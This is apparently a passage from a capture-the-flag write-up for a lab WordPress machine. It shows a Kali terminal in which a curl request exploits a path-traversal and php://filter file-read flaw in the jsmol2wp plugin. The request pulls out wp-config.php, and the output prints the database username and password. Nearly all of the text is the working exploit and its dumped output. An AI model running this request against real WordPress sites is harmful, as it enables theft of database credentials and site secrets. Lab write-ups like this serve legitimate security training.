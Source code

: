```bash
┌──(kali㉿kali)-[~/smol]
└─$ curl -s "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/convert.base64-encode/resource=../../../../wp-config.php" | base64 -d
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication unique keys and salts.
 *
 * Change these to different unique phrases! You can generate these using
 * the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}.
 *
 * You can change these at any point in time to invalidate all existing cookies.
 * This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

```